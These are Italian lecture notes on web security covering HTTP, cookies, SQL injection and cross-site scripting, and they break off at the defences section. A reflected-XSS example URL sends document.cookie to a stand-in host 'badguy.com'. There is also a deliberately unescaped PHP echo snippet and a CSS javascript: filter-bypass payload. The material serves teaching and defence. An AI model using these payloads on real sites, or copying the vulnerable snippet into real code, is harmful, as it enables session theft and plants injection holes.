

# Sicurezza dei sistemi Web

## Definizione del contesto

### Il Web - funzionalita' e vulnerabilita'
L'idea alla base del Web e' quella di archiviare **pagine di ipertesto** su computer collegati tra loro tramite Internet (dunque indipendentemente dalla loro posizione fisica) e permettendone l'accesso da qualunque computer in Internet specificandone soltanto il nome simbolico detto **URL - Uniform Resource Locator**.

Per specificare le problematiche di sicurezza dei sistemi Web vediamo gli attori coinvolti nelle applicazioni Web:
* **Browser** (client): colui che richiede le pagine web;
* **Web Server**: il fornitore dei servizi e delle risorse;
* **Base di dati** (DBMS);
* **Internet** (come mezzo di trasporto).

Le tecnologie e le applicazioni su cui si basano le applicazioni Web sono:
* **Il protocollo HTTP** e la suite dei protocolli **TCP/IP**:
  * La comunicazione avviene tramite lo scambio di messaggi secondo il paradigma richiesta-risposta (**HTTP request-response**);
* Il concetto di **ipertesto** e quindi sul linguaggio **HTML**;
* Linguaggi di **scripting** (PHP, Js, Perl, ecc).

#### URL - Uniform Resource Locator
L'URL e' il meccanismo che viene utilizzato per identificare univocamente le risorse del Web, in particolare ogni pagina Web viene identificata specificandone il "contenitore" cioe':
* Il nome del computer che la contiene;
* Il nome del file all'interno di tale computer;
* Il protocollo usato per lo scambio della pagina.

Esempio:
| Protocollo 	| Computer           	| File       	|
|------------	|--------------------	|------------	|
| http://    	| www.repubblica.it/ 	| index.html 	|

#### Tipi di siti Web
Esistono 2 tipologie di siti Web:
* **Siti statici**:
  * Presentano contenuti recuperati da una pagina Web statica;
  * Solitamente aggiornati con una bassa frequenza e sono mantenuti da una o piu' persone che agiscono direttamente sul codice della pagina (tramite appositi editor Web).
* **Siti dinamici**:
  * Presentano contenuti **redatti dinamicamente** (per esempio grazie al collegamento con un database) e forniscono contenuti che possono variare in base a piu' fattori.

#### Problemi di sicurezza nel Web
Per rendere un'applicazione Web sicura bisogna garantire:
* Sicurezza del browser (lato client);
* Sicurezza del Web server;
* Sicurezza dei protocolli di comunicazinoe tra browser e server;
* Sicurezza dell'interazione con il DBMS;
* Sicurezza del Web dinamico:
  * Uso sicuro dei linguaggi di scripting.

___
### Internet in a nutshell

#### Modello ISO/OSI
Il modello **ISO/OSI** stabilisce per l'architettura logica di rete una struttura a strati, composta da una **pila di protocolli** di comunicazione suddivisa in 7 livelli (dal livello fisico al livello delle applicazioni).

Ogni livello utilizza i servizi offerti dal livello precedente aggiungendo delle funzionalita' e offrendo servizi al livello superiore.

| Level | ISO/OSI layer | Description |
|-------|---------------|------------------------------------------------------------------------------------------------------|
| 7 | Application | Applicazione che usa la rete (Web, email, ecc) |
| 6 | Presentation | Interpreta i dati |
| 5 | Session | Organizza le sequenze di dati |
| 4 | Transport | Assicura comunicazione affidabile tra due hosts numerando i pacchetti e rispedendo i pacchetti persi |
| 3 | Network | Instrada i pacchetti tra canali diversi, facendoli arrivare al destinatario |
| 2 | Data Link | Raggruppa i bits in pacchetti e controlla chi riceve i pacchetti lungo un singolo canale condiviso |
| 1 | Physical | Consegna un bit lungo un singolo canale |

* Ogni livello del nodo A comunica con i rispettivo livello del nodo B;
* Per fargli arrivare i dati li passa al livello sottostante, aggiungendo un'**intestazinoe** al pacchetto;
* Quando il nodo B riceve i dati, si tolgono le intestazioni fino a quando non si arriva al livello di competenza.

| A NODE | ISO/OSI layer | B NODE |
|-------------|-----------------------------|--------|
| ^ |  | ^ |
| Application | <- Application protocol -> | 7 |
| Application | <- Presentation protocol -> | 6 |
| Session | <- Session protocol-> | 5 |
| Transport | <- Transport protocol-> | 4 |
| Network | <- Network protocol-> | 3 |
| Data Link | <- Data Link protocol-> | 2 |
| Physical | <- Physical protocol -> | 1 |
| ---------- | Network | ----- |

A livello implementativo lo standard di fatto affermatosi per l'architettura di rete a livelli e' lo stack **TCP/IP** che riprende in parte il modello ISO/OSI in quanto i livelli Session e Presentation non sono presenti.
Il nome TCP/IP deriva dal fatto che i due livelli piu' importanti sono:
* **TCP - Transmission Control Protocol**;
* **IP - Internet Protocol**.

#### TCP/IP - formato dei dati
Due nodi comunicano per livelli e per far arrivare i dati, questi vengono passati al livello sottostante aggiungendo un'intestazione al pacchetto.

Nello stack TCP/IP, a seconda del livello, il pacchetto viene identificato con un nome diverso e andando verso il livello fisico gli **header si concatenano**.

| ISO/OSI layer | Packet name |
|-------------------------------|-------------|
| Application protocol | Message |
| Transport protocol (TCP, UDP) | Segment |
| Network protocol (IP) | Packet |
| Data Link protocol | Frame |

#### TCP/IP - sicurezza
Si puo' gestire la sicurezza a diversi livelli all'interno dello stack TCP/IP:
* A livello applicazione;
* A livello trasporto;
* A livello rete.

#### IETF e RFC
L'**Internet Engineering Task Force** e' un gruppo di lavoro aperto che lavorano tramite mailing list (si riuniscono al massimo 3 volte l'anno) che ha come obiettivo quello di stabilire gli standard di Internet.

Producono documenti chiamati **Requests for Comments** che vengono sottoposti all'**IESG - Internet Engineering Steering Group** per il loro avanzamento a standard ufficiale.

Il motto dell'IETF e' _rough consensus and running code_ (consenso diffuso e codice funzionante).


___
## Il protocollo HTTP

### HyperText Transport Protocol - Funzionamento e vulnerabilita'
Si tratta di un protocollo a livello **applicativo** che definisce le regole che governano il trasferimentodi pagine Web dal computer che le archivia (Server) al computer che le richiede (client) tramite un browser.

Il protocollo e' orientato agli oggetti, generico e **stateless**: il Server non mantiene alcuna informazione relativa alle richieste passate di uno stesso client.

#### Entita'
Gli attori del protocollo HTTP sono:
* **Pagina Web**: l'oggetto che si scambiano il client e il Server:
  * Consiste di un file HTML di base che include degli oggetti indirizzabili tramite un URL (file HTML, immagini JPEG, applet Java, ecc);
* **Browser**: il programma che sta sul computer client:
  * In grado di richiedere pagine HTML (via HTTP) e di formattarle come prescritto (via HTML);
* **Client**: host dove risiede il browser;
* **Server**: webserver che spedisce degli oggetti in risposta ad una richiesta.

#### Utilizzo del TCP
Il protocollo HTTP e' un protocollo a livello applicativo che si appoggia sullo stack TCP/IP. In particolare usa il protocollo TCP per aprire una connessione lungo cui eseguire il protocollo: ovvero scambiare messaggi nel formato richiesto dal protocollo HTTP

* Il client inizia una connessione TCP (creando un socket) con il server alla porta 80;
* Il server accetta la connessione TCP del client;
* Vengono scambiati dei **messaggi HTTP** (messaggi del protocollo a livello applicazione) tra il browser (**HTTP client**) e il server (**HTTP server**);
* La connessione TCP viene chiusa.

Le connessioni TCP possono essere:
* **Non persistenti (HTTP 1.0)**: 
  * Ogni richiesta e la relativa risposta richiede una nuova connessione:
    * Per scaricare una pagina con immagini sono necessarie piu' connessioni, dunque possono andare in sovraccarico sia il server che il client a causa dell'eccessivo overhead (piu' connessioni TCP aperte con uno stesso server);
* **Persistenti (HTTP 1.1)**:
  * La connessione rimane aperta finche non sono scaricati tutti gli oggetti che appartengono alla pagina HTML (oppure se si verifica un timeout):
    * Si riducono il numero di connessioni, quindi l'overhead.

##### Esempio di connessione non persistente
* L'utente richiede la pagina _index.hmtl_ che contiene del testo e riferimenti a 10 immagini del sito _www.sito.com_ inserendo sulla barra del browser l'URL: _www.sito.com/index.html_;
* 1a. Il client inizia una connessione TCP al server HTTP _www.sito.com_ alla porta 80;
* 1b. Il server Web all'host _www.sito.com_ attende alla porta 80, riceve la richiesta di connessione, accetta la connessione e notifica il client;
* 2\. Il client spedisce una **richiesta HTTP** lungo il socket in cui indica che vuole visualizzare l'oggetto _index.html_;
* 3\. Il server riceve la richiesta e spedisce lungo il socket una **risposta HTTP** contenente l'oggetto richiesto e chiude la connessione TCP.
* 4\. Il client riceve la risposta contenente il file HTML e lo visualizza:
  * Facendo il parsing trova 10 immagini JPEG;
  * Compie i passi 1-4 per ciascuna delle immagini da scaricare.

#### HTTP Request

##### Formato
La prima riga e' denominata **request line** che contiene 3 informazioni:
* Il metodo richiesto;
* La risorsa richiesta (indicata da un URL);
* La versione del protocollo (1.0 o 1.1)

Le righe successive alla request line (che possono essere presenti o meno) si chiamano **header lines** ed hanno tutte con la stessa struttura: la coppia **nome del campo : valore**.
Alcuni campi dell'header di richiesta sono:
* User-Agent: versione del browser;
* Referer: da dove proviene l'utente (utile per eseguire il log e tenere traccia dell'utente);
* From: indirizzo email dell'utente (generalmente non usato per motivi di privacy);
* Authorization: puo' inviare il nome utente e la password (usato con documenti che richiedono l'autorizzazione);
* If-Modified-Since: invia il documento solo se e' piu' recente della data specificata (altrimentiil browser visualizza quello nella cache).

Ciascuna riga termina con i simboli di **carriage return** e **line feed**.
Alla fine delle linee di intestazione c'e' una riga vuota che puo' essere seguita dal **corpo del messaggio** oppure da niente.

##### Esempio

###### Request line
| Metodo | Url | Versione protocollo |
|--------|-------------|---------------------|
| GET | /index.html | HTTP/1.1 |

###### Header lines
| Key | : | Value |
|-----------------|---|-------------------|
| Host | : | www.example.com |
| User-Agent | : | Mozilla/5.0 |
| Accept | : | text/hmtl, */* |
| Accept-Language | : |  en-us |
| Accept-Charset | : | ISO-8859-1, utf-8 |
| Connection | : | keep-alive |

Nel caso in cui la _versione del protocollo_ indicata nella request line sia HTTP/1.1, il campo **Host e' obbligatorio**.
Gli header di tipo _accept_ indicano il "contratto" che il client e il server stipulano per lo scambio di oggetti.
L'header _connection_ puo' essere:
* close: nel caso in cui si voglia chiudere la connessione TCP (non persistente);
* keep-alive: quando la connessione e' persistente (e' opzionale nel protocollo HTTP/1.0 per fare in modo che anche questa versione supporti connessioni persistenti).

###### Carriage return, line feed
Riga con extra carriage return e line feed che indica la fine del messaggio.

###### Body
Opzionale

##### Metodi di HTTP request
* **GET**: richiede di leggere una pagina Web
  * Puo' inviare dei parametri (max 256 caratteri) al server tramite l'URL (nella parte chiamata **query string**):
    * La parte di query string e' separata dal resto dell'URL dal simbolo "?;
    * Le queries strings sono coppie chiave/valore separate dal simbolo "&";
  * I parametri del query string sono usati per passare i valori dei campi di una form.
* **HEAD**: funziona come GET ma richiede di leggere **solo l'intestazione** di una pagina Web;
* **POST**: invia le informazioni in modo non visibile da URL all'interno del corpo della richiesta;
* **PUT**: l'inverso di GET, **scrive** su una pagina;
* **DELETE**: rimuove una pagina;
* **TRACE**: usato per il debug, chiede di mostrare la richiesta;
* **CONNECT**: stabilisce un tunnel di comunicazione con il server identificato dall'host indicato;
* **OPTIONS**: usato per descrivere le opzioni di comunicazione con l'host.

#### HTTP Response

##### Formato
Non c'e' piu' la request line, la prima riga (obbligatoria) si chiama **status line** e contiene:
* La versione del protocollo;
* Il codice di stato;
* Il messaggio di stato;

| Versione | Status Code | Status Message |
|----------|-------------|----------------|
| HTTP/1.1 | 200 | OK |

Alla status line seguono una lista di linee di **header** che termina con una linea vuota.

| Key | : | Value |
|----------------|---|-------------------------------|
| Date | : | Thu, 24 Jul 2007 17:12:35 GTM |
| Server | : | Apache-Coyote/1.1 |
| Content-Type | : | text/hmtl; charset=UTF-8 |
| Content-Length | : | 1842 |

Alcuni campi dell'header di risposta sono:
* Date: tempo di risposta in GMT;
* Server: informazioni d'identificazione del server;
* Last-modified: ora in cui e' stato modificato per l'ultima volta;
* Content-length: fdimensione del documento in byte;
* Content-type: formato del file (HTML, PDF, gif);
* Expires: evita al browser di memorizzare la pagina nella cache oltre la data di scadenza indicata.

Nel body c'e' l'oggetto richiesto (in genere un file HTML).

##### Status Codes
I codici di stato sono rappresentati da 3 digit e si raggruppano in famiglie a seconda del primo digit:
* **1XX**: codici informatici, non previsti in HTTP/1.0 e indicano che la status line non e' seguita da nessun campo di instestazione;
* **2XX**: la richiesta ha avuto esito positivo;
* **3XX**: devono venir eseguite altre azioni dal client affinche' la richiesta vada a buon fine;
* **4XX**: errore da parte del client;
* **5XX**: errore da parte del server.


#### HTTP e sicurezza
Il protocollo HTTP prevede una forma di autenticazione piuttosto debole per regolare l'accesso a risorse sensibili, inoltre, a parte proteggere la password inserita, non vengono garantite confidenzialita' e integrita' (il traffico viene trasmesso in chiaro).

#### HTTPS
Sta per HTTP Secure che invece di aprire una connessione su TCP, la apre su SSL o TLS; fu inventato nel 1994 da Netscape.
Funziona esattamente come HTTP, tranne che per il fatto che le request e le response sono **trasmessi usando SSL o TSL** (cifrati).

Invece della porta 80, usa la porta 443 e un certificato digitale X.509 per autenticare il server (su richiesta puo' essere autenticato anche il client).

Pur avendo una fase di autenticazione che si appoggia sulla crittografia asimmetrica, le request e le response sono trasmesse cifrate mediante crittografia simmetrica con una **chiave di sessione** (concordata in fase di autenticazione).

___

### Cookies: funzionamento
I Cookie cercano di risolvere il problema che deriva dal fatto che il protocollo HTTP e' stateless: il server non mantiene alcuna informazione realtiva alle richieste passate di uno stesso client.

La prima implementazione dei Cookies fu fatta da Netscape (https://curl.haxx.se/rfc/cookie_spec.html) e l'integrazione nel protocollo HTTP fu molto discussa. Lo scopo del Cookie e' quello di **raccogliere le informazioni sul client e memorizzarle sul client stesso** (nelle applicazioni correnti non tutta l'informazione relativa al client viene memorizzata a lato client). Il Cookie puo' mantenere informazioni fino ad un massimo di 4Kb.

Poiche' molte applicazioni Web richiedono **memoria persistente delle iterazioni** coi i client, i possibili impieghi dei Cookies sono molteplici:
* Carrello della spesa elettronico (prima per memorizzare i contenuti del carrello, ora come **unique session identifier** associato al carrello memorizzato lato server);
* Inserimento di credenziali (per consentire all'utente il login in un sito Web senza reinserire le credenziali);
* Memorizzazione delle settings per la navigazione di alcunui siti web;
* Per **profilare** l'utente.

#### Utilizzo
Inizialmente non si voleva modificare il protocollo HTTP, quindi i Cookies venivano trasmessi negli header:
* La prima volta che un browser si collega ad un server non ci sono Cookies;
* Il Web server **crea un identificativo unico** e lo **inserisce nell'header della risposta usando il campo _Set-Cookie_**:
  * _Set-Cookie: CUSTOMER= John\_Doe; PATH=/; EXPIRES=Thursday, 11-JAN-09 12:00:00_
* In futuro **ogni volta che il browser si connette allo stesso server** (anche per richiedere pagine diverse), **inserisce il Cookie nell'header della request usando il campo _Cookie_**:
  * _Cookie: CUSTOMER=John\_Doe_
  
#### Formato
* Il Cookie consiste generalmente in una coppia **nome/valore**: _Set-Cookie: ID=12345jk_.
* La dimensione del Cookie e' in genere limitata dal browser (di solito <4Kb).
* Un server puo' definire piu' Cookie, anche se i browser **limitano il numero di Cookie per server** (circa 50).

Nell'header _Set-Cookie_ possono essere presentidei campi opzionali:
* **Domain**: specifica il dominio di provenienza in cui il Cookie e' valido
  * Il dominio di un Cookie viene identificato univocamente da server, porta (opzionale) e prefisso URL (opzionale);
  * Qualora il campo _Domain_ non fosse settato, il valore di default e' il dominio dell'oggetto richiesto.
* **Path**: percorso nel Web tree (del server) in cui il Cookie e' valido
  * Tipicamente e' la root "/", quindi l'intera struttura;
  * Se non viene settato, il valore di default e' il dominio dell'oggetto richiesto.
* **Expires**: indica quando scade il Cookie
  * Viene espresso come:
    * Data;
    * Numero massimo di giorni;
    * _Now_ (il cookie viene eliminato subito dal computer dell'utente in quanto scade nel momento in cui viene creato: il protocollo HTTP rimane stateless);
    * _Never_ (indica che il Cookie non e' soggetto a scadenza).
* **Secure**: Flag che se importato specifica che il Cookie venga trasmesso in una request HTTPS (ovvero il Cookie viene cifrato);
* **HTTPOnly**: Flag che indica che il Cookie non puo' essere acceduto tramite script lato client (Flag inizialmente incorporato solo da Internet Explorer, successivamente anche dagli altri browser).

#### Componenti per un corretto funzionamento
Affinche' il meccanismo dei Cookie funzioni correttamente, estendendo il protocollo HTTP, devono essere presenti 4 componenti:
* Nell'header dell'HTTP respose deve esserci il campo _Set-Cookie_;
* Nell'header delle HTTP request (tranne la prima) deve esserci il campo _Cookie_;
* Il **file di Cookie** deve essere mantenuto nel disco rigido del client e gestito dal browser;
* (Eventuale) database di back-end nel server Web che mantiene le informazioni relative ai Cookies dei client.

#### Classificazione
Una prima classificazione puo' essere fatta in termini di durata del Cookie:
* **Cookies di Sessione** (non persistente o temporaneo):
  * Il browser scarta il Cookie alla chiusura;
  * Usato per gestire i carrelli della spesa;
* **Cookies Persistenti**:
  * Il Cookie rimane nle disco rigido del client;
  * Serve per memorizzare le informazioni per lungo tempo.

Una seconda classificazione puo' essere fatta in termini di dominio del Cookie rispetto all'URL inserito nel browser:
* **First-party Cookie**: Cookie con lo stesso dominio dell'indirizzo presente nella barra del browser;
* **Third-party Cookie** (o tracking Cookie): Cookie con dominio diverso da quello presente nella barra del browser:
  * Poiche' nelle pagine HTML e' possibile inserire oggetti provenienti da domini diversi, potrebbe essere necessario iniettare Cookies di terze parti;
  * Tipicamente questi Cookies sono usati per ottenere informazioni sul navigatore, i suoi gusti, le sue preferenze, per tracciare un profilo e presentargli solo i banner pubblicitari che gli potrebbero interessare;
  * Secondo gli RFC questo tipo di Cookies non dovrebbero essere ammessi.

##### Esempio di Tracking Cookie
Supponiamo che un utente visiti il sito _www.corriere.it_, il quale contiene un oggetto (immagine o banner) proveniente dal dominio _pubblicita'.com_. Vengono generati 2 Cookie, uno per dominio (un first-party Cookie e un third-party Cookie);

L'utente successivamente visita il sito _www.repubblica.it_, contenente un altro oggetto proveniente dal dominio _pubblicita'.com_, oppure che visiti direttamente il sito _pubblicita'.com_ in quanto e' stato "catturato" dalla pubblicita' di un certo prodotto.
In questo caso il browser spedisce il cookie al server del dominio _pubblicita'.com_.

I cookie possono venire utilizzati per memorizzare tutti i siti visitati dall'utente in cui un oggetto del dominio _pubblicita'.com_ sia presente. Il tutto in maniera completamente trasparente all'utente che non si rende conto dello scambio dei Cookies e non si accorge che la sua privacy e' violata.

#### Lettura/Scrittura di Cookies a lato client
Tramite l'utilizzo di Javascript nel browser e' possibile:
* Settare un Cookie:
  * `document.cookie = "name=value; expires=...;"`
* Leggere un Cookie:
  * `console.log(document.cookie)`
* Rimuovere un Cookie:
  * `document.cookie = "name=; expires= Thu, 01'-Jan-70"`

___

### Cookies: vulnerabilita' e contromisure

#### Cookie hijacking
Poiche' i Cookies si basano sul protocollo HTTP e il traffico HTTP viaggia in chiaro,** i Cookies possono venire letti** nel caso in cui venga intercettato il traffico. 

##### Contromisura
Settare il flag _Secure_ nell'header dell'HTTP request e quindi utilizzare HTTPS.
A volte pero' anche l'uso di HTTPS non e' una garanzia perche':
* Per motivi di efficienza alcuni header non vengono cifrati;
* Per motivi di efficienza solo il primo messaggio viene spedito tramite HTTPS.

Nelle ultime implementazioni il flag _Secure_ garantisce la cifratura del Cookie.

#### Cookie Poisoning
Un utente puo' **cambiare e cancellare i valori** dei Cookies:
* Modificando il campo _Cookie_ nell'header della HTTP request;
* Editando il file dei Cookies del browser.

#### Cattivo uso di script
Supponiamo di avere un server Web che si aspetta venga inserita in un form una parola da cercare ed inviare una HTTP request: `http://dictionary.com/search.php?term=apple`.
 
Se l'implementazione non fosse adeguata:
```php
<HTML>
<TITLE> Search Results </TITLE>
<BODY>
Results for <?php echo $_GET[term]>
</BODY>
</HTML>
```

Sarebbe dunque possibile inviare delle request malevole come ad esempio:
`http://dictionary.com/search.php?term= <script> window.open("http://badguy.com?cookie=" + document.cookie) </script>`

Se un utente inviasse una request del genere:
* Il browser invierebbe una richiesta a dictionary.com;
* dictionary.com restituirebbe: `<HTML> Results for <script> ... </script>`;
* Il browser eseguirebbe lo script e spedirebbe a badguy.com i Cookies dell'utente

##### Contromisura
Usare il flag _HTTPOnly_: i Cookies vengono spediti tramite HTTP(S), ma non sono accessibili lato client tramite script dunque non possono venire letti da `document.cookie`.

#### Alternative ai Cookies
I Cookies sono un meccanismo molto discusso per garantire HTTTP stateful ed il problema dei Tracking Cookies persiste se l'utente non si ricorda di configurare correttamente le preferenze del browser, dunque sorge spontaneo cercare anche metodi alternativi ai Cookies per implementare soluzioni stateful.

E' possibile utilizzare **campi nascosti del form**: `<input type="hidden" name="price" value="10">`.
In questo caso il campo non viene visualizzato sulla pagina ma se l'utente visualizza il sorgente HTML lo vede e ne puo' modificare il valore.
Inoltre se si utilizza il metodo _GET /submit_order?price=10 HTTP/1.1_ il campo e' visibile anche nella richiesta inviata dal client.

Dunque gli attacchi possibili ai Cookies sono possibili anche nel caso di campi nascosti.

___

## SQL Injection

### SQL in a nutshell
SQL e' un linguaggio che permette di interrogare una base di dati relazionale, costituita da tabelle le cui righe rappresentano dei record relativi ad un oggetto e le colonne gli attributi dell'oggetto.

Con una **query** su una base di dati ottengo una tabella che puo' essere anche vuota.
La query e' composta da:
* SELECT Attributo<sub>1</sub> Attributo<sub>2</sub> (quali sono gli attributi che ci interessano);
* FROM Tabella<sub>1</sub> Tabella<sub>2</sub> (in quali tabelle si trovano);
* WHERE Condizione (quali proprieta' devono avere per essere restituiti).

L'operatore UNION esegue l'unione insiemistica di due tabelle generate da comandi SELECT che devono avere lo stesso numero di colonne.
___

### SQL Injection - funzionamento
L'attacco approfitta di vulnerabilita' insite nei siti Web dinamici. Si tratta di un input "non fidato" a lato client in una query eseguita a lato server. La stringa in input **altera la semantica** prevista dalla query nel database. Questo attacco e' possibilie nel caso in cui i dati in input non vengano controllati prima di eseguire la query.

Perche' possa avvenire un attacco di tipo SQL Injection devono esserci delle condizioni:
* All'utente, lato client, viene data la possibilita' di inserire i dati mediante un **form**;
* Lato server, deve esserci uno **script vulnerabile** che recupera i dati dalla form e li utilizza per costruire la query (l'input dell'utente viene inserito **direttamente in comando SQL**);
* Lato server, deve esserci una base di dati su cui effettuare la query.

Per fare un attacco "intelligente" e' pero' necessario conoscere la struttura del database.
___

### SQL Injection - come proteggersi
In mancanza di controllo dell'input si possono sfruttare dei metacaratteri (ad esempio gli apici), che servono per distinguere i dati dal controllo, per inserire degli **elementi di controllo** per alterare la semantica della query.

#### Whitelisting e Blacklisting
Le contromisure piu' ovvie sono la validazione dell'input tramite:
* Whitelisting: vengono ammessi soltanto input che rientrano in un ben definito insieme di valori
  * L'insieme di valori in genere viene definito usando regex che funzionano da pattern con cui confrontare gli input.
* Blacklisting: indicare i caratteri che non devono essere presenti nelle stringhe di input
  * E' possibile dimenticare qualche carattere nella blacklist;
  * Puo' essere in conflitto con alcuni requisiti funzionali.

#### Prepared Statements
L'idea di base e'fare in modo che i dati e gli elementi di controllo rimangano distinti (CQRS?).

In caso si utilizzino linguaggi di scripting e' possibile utilizzare:
* **Prepared Statements**: template statici di una query SQL con parametri (bind variables) che vengono sostituiti con i valori reali in fase di esecuzione;
* **Bind variables**: segnaposto rappresentato dal carattere "?" che garantisce si tratti di dati (e non elementi di controllo).

___

## XSS: Cross Site Scripting

### La _Same-origin policy_
La same-oring policy e' la politica di sicurezza usata dai browser per regolare l'interazione tra le diverse sessioni che un browser puo' avere aperte in contemporanea. Questa politica viene completamente bypassata dagli attacchi di tipo Cross Site Scripting.

#### Contesto
* In genere un browser puo' avere in esecuzione diverse applicazioni web (in finestre o tab diverse);
* Le sessioni tra client e server vengono stabilite tramite l'uso di Cookies, Session ID o l'uso del protocollo SSL/TLS;
* Per cercare di regolare quali dati le diverse sessioni possono condividere, in modo da proteggere dati e Session ID da attacchi esterni, i browser applicano una politica di sicurezza chiamata **Same-origin policy**.

#### Funzionamento
Questa politica viene anche detta **Cross-Domain Security Policy** ed e' stata introdotta da Netscape.

Stabilisce che:
> Due pagine hanno la stessa origine se condividono:
> * Il protocollo;
> * L'hostname;
> * Il numero di porta.

Quindi **limita l'interazione tra pagine Web che provengono da origini diverse** stabilendo che:
* Gli script possono accedere solo alle proprieta' (Cookies, oggetti DOM) di documenti che hannno la stessa origine:
  * I link, i frame, le immagini, i fogli di stile e alcuni script possono appartenere e provenire da domini diversi;
* I Cookies possono venire inclusi solo in richieste alla stessa origine che li ha generati.

#### Varianti
* Per quanto riguarda i Cookies, la Same-origin policy richiede solo che hostname+path siano uguali;
* In Js, la Same-origin policy rispetto alla funzione document.cookies nel DOM considera host+protocollo+porta;
* IE non considera la porta;
* Per HTTPS avrebbe senso includere anche le chiavi di sessione nella Same-origin policy in modo da garantire che non ci sia interferenza tra diverse sessioni "sicure" con uno stesso server.

___

### L'attacco XSS
E' una forma di attacco in cui l'attaccante e' in grado di **far eseguire del codice arbitrario** (script) dal browser di un client che recupera la pagina Web **da unaltro server**: lo script "eredita" l'origine del server su cui e' stato iniettato e da cui il browser crede di riceverlo, bypassando cosi' la Same-origin policy. Il client viene cosi' compromesso, ma non il server (a differenza dell'attacco SQL Injection).

#### Obiettivi
In genere gli obiettivi di un attacco XSS sono:
* Rubare i Cookies di sessione o i Session ID;
* Eseguire azioni (anche in modo implicito) per le quali solo l'utente attaccato ha i privilegi (**elevazione di privilegi**);
* Far visualizzare contenuti falsi o modificati nel browser del client vittima;
* Diffondere l'attacco postando il codice nella pagina di un social network, facendo in modo che tutti gli "amici" dell'utnete vengano infettati.

#### Tipologie
L'attacco quindi consiste nell'inserire del codice malevolo nella pagina generata dal server. Esistono dunque differenti modalita':
* **Reflected XSS** (tipo 1, non persistente):
  * Funzionamento:
    * L'utente che subisce l'attacco segue un link che contiene lo script malizioso che lo rimanda ad un server vulnerabile che inserisce lo script senza verificarlo in una pagina che invia all'utente vittima;
    * Il contenuto della pagina spedita come risposta dal server viene modificato in modo **non permanente** ed esclusivamente per le HTTP requests che utilizzano tale URL appositamente creato.
  * Lo script viene inserito lato client:
    * Condizioni:
      * Si deve inserire lo script come parametro di input;
      * Il parametro di input deve venir inserito dal server nella pagina Web rispedita al client;
    * Le condizioni si verificano frequentemente nel caso di form per la ricerca: in genere i motori di ricerca ristampano la stringa cercata nella pagina dei risultati.
    * Modalita' di iniezione dello script:
      * Tramite un attacco di tipo Phishing;
      * Modificando la query string dell'URL (nel caso di attaccante attivo).
* **Stored XSS** (tipo 2, persistente):
  * Funzionamento:
    * L'attaccante salva lo script malizioso tra le risorse gestite dal server Web vulnerabile (per esempio un DB);
    * Il contenuto della pagina viene modificato **permanentemente**, quindi tutti gli utenti che successivamente accedono als ito Web gestito da tale server sono potenzialmente attaccabili.
  * Lo script viene inserito lato server:
    * Come commento in un social network;
    * Nelle pagine 404 customizzate;
    * Nelle immagini.

##### Esempio Reflected XSS
* Script Injection: L'attaccante invia un URL contenente uno script malevolo all'utente vittima, oppure (nel caso di attaccante attivo) modifica l'HTTP request del client;
* L'utente fa click sul link **inviando inconsapevolmente** lo script al server;
* Il trusted server vittima **"riflette"** l'input (malevolo) indietro all'utente **senza verificarlo**;
* Il browser del client vittima riceve l'HTTP response del trusted server ed esegue lo script in esso contenuto (in maniera invisibile all'utente).

##### Esempio Stored XSS
* L'attaccante inserisce lo script malizioso nel DB del trusted server;
* Quando il client vittima richiedera' la pagina al server, questo inserira' lo script malizioso nella pagina Web.

Qualsisasi client che richiedera' la pagina contenente lo script malizioso subira' l'attacco.

L'attaccante per inserire lo script nel DB non deve per forza avere accesso al DB: infatti puo' usare siti con _online message boarding_ dove gli utenti possono inserire messaggi formattati in HTML.

Scenario:
* Eve posta in un social network un messaggio con un corpo malizioso;
* Quando Bob legge il messaggio, lo scirpt malizioso legge i Cookies di Bob e li spedisce a Eve;
* Eve puo' ora impersonare Bob.

###### Caso MySpace
Su MySpace gli utenti possono postare codice HTML nelle loro pagine, il server controlla che nell'HTML inserito non siano presenti:
* `<script>`
* `<body>`
* `onclick`
* `<a href=javascript://>`

ma Javascript nei tag CSS e' permesso:
* `<div style="background:url('javascript:alert(1)')">`

Quindi tramite Javascript hacking il **worm Samy** infetta chiunque visiti una pagina di MySpace infettata e aggiunge Samy come amico.
Nel giro di 24 ore Samy aveva milioni di amici e aveva bloccato completamente il sito di MySpace.

##### Stored XSS tramite immagini
Un altro modo per inserire lo script nel DB del server, pur non avendone accesso, e' sfruttare il fatto che quando un browser deve visualizzare tutti gli oggetti presenti in una pagina HTML utilizza una **tecnica di best-effort** (che cerca di ovviare ai problemi di tag non chiusi, file con contenuto diverso da quello descritto nell'HTTP respose, ecc).

Se un file con estensione JPEG ma contenente codice HTML viene inviato ad un browser, questo visualizzera' la risposta come HTML, noncurante del Content-Type.

In un sito di condivisione foto che permette di caricare e scaricare immagini, un utente puo' scaricare un'immagine che e' uno script malizioso.

#### Come difendersi
* A lato server:
